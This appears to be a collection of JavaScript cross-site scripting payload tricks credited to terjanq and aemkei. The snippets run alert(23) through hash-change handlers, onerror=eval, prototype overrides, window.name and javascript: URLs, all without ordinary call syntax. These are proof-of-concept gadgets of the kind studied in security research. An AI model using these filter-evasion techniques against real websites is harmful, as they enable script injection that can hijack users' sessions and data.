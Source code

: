 [terjanq](https://twitter.com/terjanq/status/1286059146509516800)
    
    example.com/#1/-alert(23)/
```    
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null;
```
    
---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]
    
---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```
    
---

[terjanq](https://twitter.com/terjanq)

Put `%0aalert(/23/)//` anywhere in the URL

    location='javascript:'+location
    location=/javascript:/.source+location
    location=`javascript:`+location
    
---

[terjanq](https://twitter.com/terjanq)

```
x={...eval+0,toString:Array.prototype.shift,length:15},
x+x+x+x+x+x+x+x+x+x+x+x+x,
location = /javascript:/.source + alert.name+x+23+x
```
    
---

[terjanq](https://twitter.com/terjanq/status/1239617536318152704?s=20)

    
    example.com/xss?%0aalert(/23/)//
    

    Function`a${unescape. call`${location}`}```
    
---

[aemkei](https://twitter.com/aemkei)

    onhashchange=setTimeout;
    HashChangeEvent.prototype.toString=
    RegExp.prototype.toString;
    location.hash=
    HashChangeEvent.prototype.source=
    '1/-alert\5023\51/';
    
---